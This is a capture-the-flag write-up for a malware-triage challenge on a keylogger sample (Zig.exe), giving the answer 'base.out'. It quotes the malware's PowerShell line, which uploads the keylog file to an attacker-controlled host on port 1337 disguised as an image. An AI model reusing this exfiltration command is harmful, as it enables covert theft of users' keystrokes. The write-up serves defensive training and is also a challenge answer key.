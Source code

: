 # Keylogger Out #1

## Description

This is for the `Zig.exe` binary!

What was the file name for the first key logger output?

Password to open archive: `infected`

*NOTE* - The resources needed for this challenge are on the `Cyber Defense CTF Triage Workstation` VM on our [hosted platform](https://training.leveleffect.com/courses/f4a9466f-edb0-42ff-bb0e-a95af2b05de5).

WARNING - This challenge involves malware. Do not run this on your personal machine. Use a VM in the Level Effect CTF course or your own. 

## Files

* [zig.zip](files/zig.zip)

## Solution

By reviewing the movezig.ps1 one file, we located what it was doing. 

```powershell
$filePath = "C:\Windows\base.out"
$uri = "http://leveleffectgotallyourbase.com:1337/base.out"
Invoke-RestMethod -Uri $uri -Method Put -InFile $filePath -ContentType "image/jpeg"
```

```
base.out
```
